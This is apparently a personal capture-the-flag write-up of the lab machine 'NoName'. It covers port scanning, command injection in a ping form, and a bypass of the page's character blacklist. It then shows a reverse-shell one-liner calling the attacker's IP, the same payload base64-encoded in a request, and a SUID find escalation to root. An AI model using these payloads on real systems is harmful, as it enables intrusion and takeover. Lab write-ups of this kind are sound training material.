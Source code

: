 # PG Play - NoName

#### Ip: 192.168.183.15
#### Name: NoName
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV   192.168.183.15
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-30 10:20 CDT
Nmap scan report for 192.168.183.15
Host is up (0.071s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

Looking at the site on port 80 we find a "fake admin area"

![noname_site.png](../assets/noname_assets/noname_site.png)

Trying to insert a command we get the message `Fake ping executed`

Opening WireShark and listening for packets, we can see the site is indeed able to ping out tun0 address:

noname_ping.png

Lets capture this request in Burp and see if we can execute any other commands then `ping`

After quite awhile trying different command injection techniques, I was unable to to get any execution.

Taking a step back and trying some directory  fuzzing I find both an `/admin` page as well as a `/superadmin.php` page. 

`/admin` seemed to just be an image gallery. The page source however had an interesting comment: `<!--passphrase:harder-->`. We'll hold onto that and see if we can use it anywhere later.

### Exploitation

Navigating to `superadmin.php` we find a similar functionality as the "fake admin area", but this time we can see the ping being executing in our browser output:

noname_admin_ping.png

I can now perform command injection in this field, confirming the fact with: `127.0.0.1 | id`

noname_ex.png

Still struggling to get a reverse shell, I decide to check out the superadmin.php file and see several different strings being blacklisted:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

This will make getting a reverse shell a bit more tricky because so many characters are blacklisted. 

Capturing the request in Burp, we can bypass the blacklist at least for now by inserting apostrophes between charcters:

noname_bypass.png

But we'll still need to get a reverse shell here. Lets base64 encode a reverse shell onliner to try to bypass the blacklist:

I'll use:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.208 443 >/tmp/f
```

Base64 encode it, and then use `echo -n (rev_shell) | base64 -d | bash` to pass the command in Burp:

```text
pinger=127.0.0.1+|echo+-n+"cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIwOCA0NDMgPi90bXAvZg=="+|+base64+-d+|bash&submitt=Submit+Query
```

Running this with a NC listener going gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.183.15] 50730
bash: cannot set terminal process group (739): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haclabs:/var/www/html$ whoami
whoami
www-data
www-data@haclabs:/var/www/html$ hostname
hostname
haclabs
```

I can now grab the local.txt flag:

noname_local.png

### Privilege Escalation

Loading linpeas onto the target we see that `find` has the SUID bit set.

noname_lin.png

Heading over to GTFObins.com we find the exact command we need to exploit this misconfiguration:

noname_gtfo.png

`./find . -exec /bin/sh -p \; -quit`

We can execute this command, elevate our shell to root, and grab the final flag:

noname_root.png

Thanks for following along!

-Ryan

--------------------------------------------------------------------
